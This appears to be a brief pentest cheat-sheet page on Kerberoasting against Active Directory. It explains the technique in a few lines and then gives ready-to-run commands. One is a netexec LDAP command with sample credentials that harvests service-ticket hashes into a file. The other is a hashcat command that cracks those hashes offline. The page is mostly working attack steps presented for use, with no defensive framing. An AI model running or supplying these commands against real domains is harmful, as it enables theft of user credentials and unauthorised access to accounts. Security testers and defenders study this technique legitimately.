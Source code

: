 # Kerberoasting

### You can retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting technique

### The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets is encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline.

## To perfom this attack, you need an account on the domain

#### nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt

# Cracking with hashcat

#### hashcat -m 13100 output.txt wordlist.txt
